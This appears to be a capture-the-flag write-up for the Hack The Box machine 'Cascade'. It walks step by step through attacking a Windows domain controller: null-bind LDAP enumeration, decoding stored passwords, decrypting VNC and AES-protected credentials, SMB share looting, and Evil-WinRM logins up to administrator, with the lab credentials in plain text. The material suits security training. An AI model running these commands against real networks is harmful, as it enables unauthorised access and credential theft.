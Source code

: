```yaml
---
description: https://app.hackthebox.com/machines/235
---
```


# Cascade

## Autorecon results

**Password:** PentestEverything

{% file src="../../../.gitbook/assets/10.10.10.182 - Cascade.zip" %}

## Nmap

```
nmap 10.10.10.182 -p- -Pn -sS -sV

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-03-02 18:33:43Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: cascade.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cascade.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
49170/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: CASC-DC1; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows
```

{% hint style="info" %}
Add "10.10.10.182 cascade.local" to /etc/hosts.
{% endhint %}

Starting out on this machine we run a simple `nmap` script scan against `LDAP` with null credentials.

```bash
nmap -n -sV --script "ldap* and not brute" '10.10.10.182'
```

![](<../../../.gitbook/assets/image (2038) (1) (1) (1).png>)

Seeing as we are able to pull some information with the above command, we can try `ldapseacher` with `NULL` credentials know that we know the required domain information.

```bash
ldapsearch -x -h "10.10.10.182" -D '' -w '' -b "DC=cascade,DC=local" 
```

![](<../../../.gitbook/assets/image (2044) (1) (1) (1) (1) (2) (1) (1).png>)

We find this spits out a serious amount of information. Ideally, we will run this against and identify some user accounts.

```bash
# Search for users, cleanup and output to file
ldapsearch -x -h "10.10.10.182" -D '' -w '' -b "DC=cascade,DC=local" | grep "userPrincipalName" | sed 's/userPrincipalName: //' | sort > ADUsers.txt
```

![](<../../../.gitbook/assets/image (2075) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

Now, with a list of users we can start trying to find ways into the accounts. First up, checking the target domain for users with 'Do not require Kerberos preauthentication'.

```
python2 /opt/impacket-0.9.19/examples/GetNPUsers.py cascade.local/ -usersfile ADUsers.txt -dc-ip 10.10.10.182
```

![](<../../../.gitbook/assets/image (2068) (1) (1) (1) (1) (1) (1).png>)

Unfortunately we get no results here...

I also attempted password spraying the accounts for quite some time. Again, nothing.

As `LDAP` has spewed so much data with `NULL` credentials I decided to look again, this time using a graphical explorer.

```
sudo apt install jxplorer
```

Where we can login using the following settings:

![](<../../../.gitbook/assets/image (2071) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

After some time of pouring through the results manually we come across an interesting attribute for the user _r.thompson_.

![](<../../../.gitbook/assets/image (2035) (1) (1) (1).png>)

```
cascadeLegacyPwd:clk0bjVldmE=
```

Decoding the `Base64` value gives us a valid credential.

```
echo 'clk0bjVldmE=' | base64 -d
rY4n5eva
```

We now have the following credentials

```
r.thompson:rY4n5eva
```

We can see from the `LDAP` results above _r.thompson_ is not a member of the Remote Management Users group so `WinRM` will not work here.

![](<../../../.gitbook/assets/image (2067) (1) (1) (1) (1) (1) (1) (1).png>)

As the credentials are valid we can then try download the contents of selected shares.

```bash
smbclient -U 'r.thompson' '\\10.10.10.182\Data\' -c 'prompt OFF;recurse ON; mget *'  
```

![](<../../../.gitbook/assets/image (2059) (1) (1) (1) (1) (1) (1) (1).png>)

Under `/IT/Temp/s.smith/` we have a file called `"VNC Install.reg"`.

![](<../../../.gitbook/assets/image (2061) (1) (1) (1) (1) (1) (1) (1).png>)

We can see from the above image we have the above HEX value in the password field.

```
6bcf2a4b6e5aca0f
```

After a little bit of research on Google we find the value can be decrypted using the following command.

```bash
echo -n "6bcf2a4b6e5aca0f" | xxd -r -p | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d | hexdump -Cv
```

![](<../../../.gitbook/assets/image (2043) (1) (1) (1) (1) (1).png>)

For the credentials:

```
s.smith:sT333ve2
```

We know from enumeration earlier that s.smith is a member of the AD group "Audit Share".

![](<../../../.gitbook/assets/image (2072) (1) (1) (1) (1) (1) (1).png>)

Knowing this, we can take a guess that they have access to the `AUDIT$` `SMB` share.

```bash
smbclient -U 's.smith' '\\10.10.10.182\AUDIT$\' -c 'prompt OFF;recurse ON; mget *'  
```

![](<../../../.gitbook/assets/image (2056) (1) (1) (1) (1) (1) (1) (1).png>)

Opening the database from `Audit.db` database file from the DB folder shows a `Base64` encoded value for the _ArkSvc_ user.

![](<../../../.gitbook/assets/image (2045) (1) (1) (1) (1) (1) (1).png>)

```bash
echo 'BQO5l5Kj9MdErXx6Q6AGOw==' | base64 -d
```

Of which, when, decoded appears to be encrypted.

To read the `exe` and `DLL` files included in the `SMB` share we need to jump onto a Windows host and use `dnSpy`.

**Github**: [https://github.com/dnSpy/dnSpy/releases](https://github.com/dnSpy/dnSpy/releases)

Opening both `CaseCrypto.dll` and `CaseAudit.exe` in dnSpy we can obtain valuable information from both files when carefully reading the code.

![](../../../.gitbook/assets/DLL-DNSspy.PNG)

![](../../../.gitbook/assets/exe-DNSspy.PNG)

```
IV:1tdyjCbY1Ix49842
Key:c4scadek3y654321
Mode:CBC
Size:128
```

This information can be plugged into the following website to reveal the encrypted string.

**URL:** [https://www.devglan.com/online-tools/aes-encryption-decryption](https://www.devglan.com/online-tools/aes-encryption-decryption)

![](<../../../.gitbook/assets/image (2039) (1) (1) (1).png>)

For the credentials:

```
arksvc:w3lc0meFr31nd
```

Where we can log in over `WinRM` with `Evil-WinRM`.

```bash
evil-winrm -u 'arksvc' -p 'w3lc0meFr31nd' -i '10.10.10.182'
```

![](<../../../.gitbook/assets/image (2074) (1) (1) (1) (1) (1) (1) (1) (1).png>)

Looking at our group memberships we see we are a member of the group _"AD Recycle Bin"_.

![](<../../../.gitbook/assets/image (2051) (1) (1) (1) (1) (1) (1).png>)

We can use the `PowerShell` AD module to listed deleted users.

```powershell
Get-ADObject -filter 'isDeleted -eq $true' -includeDeletedObjects -Properties *
```

![](<../../../.gitbook/assets/image (2034) (1) (1).png>)

```bash
echo 'YmFDVDNyMWFOMDBkbGVz' | base64 -d 
```

Credentials:

```
tempadmin:baCT3r1aN00dles
```

From enumerating the `SMB` shares earlier we came across the following file from the Data share:

Meeting\_Notes\_June\_2018.html

![](<../../../.gitbook/assets/image (2050) (1) (1) (1) (1) (1) (1) (1).png>)

With this information we can then log in as the administrator account and grab the root flag.

```bash
evil-winrm -u 'administrator' -p 'baCT3r1aN00dles' -i '10.10.10.182' 
```

![](<../../../.gitbook/assets/image (2069) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)
